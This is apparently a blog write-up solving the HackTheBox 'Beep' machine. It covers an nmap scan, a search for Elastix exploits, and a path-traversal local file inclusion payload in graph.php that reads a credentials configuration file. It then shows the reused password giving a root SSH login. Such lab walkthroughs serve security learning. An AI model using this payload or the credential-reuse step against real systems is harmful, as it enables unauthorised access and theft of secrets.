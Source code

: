 ```yaml
---
title: "HackTheBox - Beep"
author: Nasrallah
description: ""
date: 2022-08-15 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, lfi]
img_path: /assets/img/hackthebox/machines/beep
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Beep](https://app.hackthebox.com/machines/Beep) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.7       
Host is up (0.40s latency).
Not shown: 988 closed tcp ports (reset) 
PORT      STATE SERVICE    VERSION    
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:                        
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd                    
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3                    
|_http-title: Did not follow redirect to https://10.10.10.7/
|_http-server-header: Apache/2.2.3 (CentOS)    
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: PIPELINING EXPIRE(NEVER) STLS APOP LOGIN-DELAY(0) RESP-CODES UIDL USER TOP IMPLEMENTATION(Cyrus POP3 server v2) AUTH-RESP-CODE
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)        
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
111/tcp   open  rpcbind    2 (RPC #100000)                              
| rpcinfo:                                                                    
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status                                                                                                                    
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_imap-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_imap-capabilities: Completed X-NETSCAPE RIGHTS=kxte THREAD=REFERENCES NAMESPACE ACL LISTEXT RENAME IMAP4 LIST-SUBSCRIBED MAILBOX-REFERRALS CHILDREN STARTTL
S URLAUTHA0001 THREAD=ORDEREDSUBJECT LITERAL+ IDLE MULTIAPPEND NO UIDPLUS ANNOTATEMORE ATOMIC OK SORT=MODSEQ UNSELECT ID BINARY CONDSTORE CATENATE QUOTA SORT
 IMAP4rev1
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
|_http-server-header: Apache/2.2.3 (CentOS)
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2022-08-19T08:56:58+00:00; -29m44s from scanner time.
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Elastix - Login page
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-known-key: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com
```

Nmap found quite a lot of services, but let's start with the webserver on port 80/443.

### Web

Navigating to the webserver we find the following.

![](1.png)

We found a login page for `elastix`, i tried some default credentials but lo luck login in.

Let's see if there is any exploits for this service.

```terminal
$ searchsploit elastix
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                                                                                      | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                                    | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                                              | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                           | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                                                          | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                                                         | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                                     | php/webapps/18650.py
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

We found a bunch of exploits, but let's try the local file inclusion one.

We can copy it with the following command.

```terminal
$ searchsploit -m php/webapps/37637.pl
  Exploit: Elastix 2.2.0 - 'graph.php' Local File Inclusion
      URL: https://www.exploit-db.com/exploits/37637
     Path: /usr/share/exploitdb/exploits/php/webapps/37637.pl
File Type: ASCII text

Copied to: /home/sirius/CTF/HTB/Machines/beep/37637.pl
```

Reading through the exploit, we found the following proof of concept.

```text
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Let's try it.

![](2.png)

It worked, for a better view, press `ctrl + u`.

![](4.png)

We found some passwords, wait! It's the same password being reused.


## **Foothold**

Let's try login as root with the password we found via ssh.

```terminal
$ ssh root@10.10.10.7                                                                                
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep ~]# 
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).